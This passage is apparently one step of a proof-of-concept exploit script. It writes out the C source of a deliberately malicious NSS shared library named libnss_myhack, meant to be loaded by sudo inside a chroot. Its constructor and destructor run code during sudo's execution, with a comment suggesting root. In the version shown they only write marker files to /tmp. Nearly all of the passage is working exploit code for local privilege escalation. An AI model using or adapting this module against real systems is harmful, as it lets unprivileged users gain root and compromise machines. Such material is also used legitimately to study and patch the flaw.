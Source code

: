 # 3) Write malicious NSS module source
cat > /tmp/libnss_myhack.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <sys/stat.h>
#include <pwd.h>
#include <grp.h>
#include <nss.h>

static void write_file(const char *path, const char *msg) {
    int fd = open(path, O_CREAT|O_WRONLY|O_TRUNC, 0644);
    if (fd >= 0) {
        write(fd, msg, strlen(msg));
        close(fd);
    }
}

__attribute__((constructor))
static void my_ctor(void) {
    // Executed while sudo is pivoted into $CH
    write_file("/tmp/nss_poc_constructor", "constructor ran\n");
}

__attribute__((destructor))
static void my_dtor(void) {
    // Executed after sudo unpivots, before process exit
    write_file("/tmp/nss_poc_destructor", "destructor ran as root?\n");
}

// Minimal NSS stubs that return UNAVAIL so libc falls back to files

enum nss_status _nss_myhack_getpwnam_r(const char *name, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getpwuid_r(uid_t uid, struct passwd *pwd,
    char *buffer, size_t buflen, int *errnop) {
    (void)uid; (void)pwd; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrnam_r(const char *name, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)name; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}

enum nss_status _nss_myhack_getgrgid_r(gid_t gid, struct group *grp,
    char *buffer, size_t buflen, int *errnop) {
    (void)gid; (void)grp; (void)buffer; (void)buflen; (void)errnop;
    return NSS_STATUS_UNAVAIL;
}
EOF
